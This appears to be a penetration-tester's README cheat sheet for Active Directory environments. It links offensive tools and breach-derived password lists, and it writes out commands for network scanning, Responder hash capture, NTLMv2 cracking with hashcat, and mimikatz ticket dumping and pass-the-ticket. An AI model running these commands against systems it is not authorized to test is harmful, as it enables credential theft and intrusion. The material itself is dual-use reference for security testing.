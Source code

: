 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### BloodHound
https://github.com/fox-it/BloodHound.py
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
### breach-parse
https://github.com/hmaverickadams/breach-parse
### PRET
https://github.com/RUB-NDS/PRET

## Wordlists bby
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

### Big ass p-list

https://download.g0tmi1k.com/wordlists/large/b0n3z-wordlist-sorted-something.tar.gz (165 GB)

# VEV

## Nmap
#### Scan for Version, OS-type and all open ports to a file
```bash
sudo nmap -sV -O -p- IP/mask > file.txt
```
## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password>
```
## BloodHound Dump
```bash
./bloodhound.py -c All -u [username] -p [password] -dc [domain controller domain name] -d [domain name]

```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount.cifs <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## PRET
### Nmap printers
```bash
nmap -p 9100 IP/mask
```
```bash
pret.py target {ps,pjl,pcl}
```
## Zero Logon
* in the making 
## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```
### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
